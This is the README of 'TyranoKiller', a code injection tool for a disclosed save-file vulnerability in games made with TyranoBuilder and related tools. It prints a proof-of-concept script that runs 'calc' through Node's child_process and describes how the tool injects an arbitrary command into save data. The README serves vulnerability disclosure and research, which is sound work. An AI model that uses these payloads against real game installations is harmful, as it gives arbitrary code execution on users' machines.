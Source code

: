 # TyranoKiller
👻 Code injection tool for Tyrano.  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.  
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.01c  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScript <= 4.88)  
- (TyranoScriptV5 <= 5.07b)  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```
Don't use untrusted files.  

### Demo
![calc.gif](images/calc.gif)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  
